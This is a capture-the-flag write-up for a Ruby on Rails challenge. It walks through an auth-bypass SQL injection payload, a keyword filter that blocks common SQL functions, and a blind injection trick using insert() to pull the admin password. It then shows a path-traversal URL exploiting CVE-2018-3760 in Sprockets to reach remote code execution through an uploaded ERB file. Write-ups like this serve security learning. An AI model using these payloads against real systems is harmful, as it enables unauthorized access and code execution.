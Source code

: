 This challenge was a ruby on rails application.  
The index route redirects to a login page, which is vulnerable to sql injection  
After people bypass auth with simple payloads like `' or 1=1 #` you will know that the goal is to retreive admin password using sqli and login into /admin.  
The filter was :  
```RUBY
hack =  /union|benchmark|strcmp|locate|STRCMP|position|file|concat|sleep|md5|mid|sub|count|and|left|load|space|instr|pad|conv|right|ascii|cast|reverse|locate|glob|having|like|match|char|regexp|limit|order|group|hex|information/i
```
So there is no substr functions no unions etc ...  
A possible solution(there are others) is to use insert function basically you can do :  
SELECT ('a')=(insert((SELECT password from users where isadmin=1), 2, 255, ''));  
And do blind injection to retreive password, more details about this technique are [here](https://gist.github.com/stypr/43fce10db9fa44b5f072442245d9e82e)  
After finding the admin password and login into /admin, we will be redirected to /upload where you can upload any file you want, the only thing that is returned is the PATH of that file.  
Gemfile shows the version of Sprockets that was used, which was vulnerable to CVE-2018-3760  
Basically you need to need to upload an erb file containing your payload and abuse the CVE to get RCE :  
The payload for rce looks like : http://185.168.131.128:8080/assets/file:%2f%2f/home/web03/app/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252E%252E/%252E%252E/home/web03/app/uploads/resumes/someHash/file.erb%3Ftype=text/plain  
For more details about the CVE , check Orange Tsai talk at BHUSA 2018.